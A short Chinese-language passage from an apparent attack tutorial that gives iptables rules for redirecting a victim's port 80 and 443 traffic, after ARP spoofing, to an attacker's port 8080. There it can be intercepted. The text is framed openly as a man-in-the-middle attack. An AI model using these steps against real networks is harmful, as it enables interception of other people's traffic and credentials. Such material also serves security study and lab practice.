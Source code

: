 ## 重定向HTTP/HTTPS流量

工具已经准备完成，下一步是将受害者发往80端口和443端口（或发往其他端口的https流量）的流量重定向至攻击者的8080端口

### 重定向arp欺骗后流量

如果前期**完成了arp欺骗**，劫持了受害者的所有流量，则直接通过防火墙修改本机的流量转发规则即可

```plain
# 将eth0网卡的所有访问80和443流量转发至8080端口
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

# 只转发指定IP的流量
iptables -t nat -A PREROUTING -s 192.168.243.128 -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A PREROUTING -s 192.168.243.128 -p tcp --dport 443 -j REDIRECT --to-ports 8080
```

重定向后，受害者访问流量即可被我们抓获

[![](assets/1701606977-c70c2851bdc875be0169712d8d04def6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200220-0c4165cc-5a09-1.png)
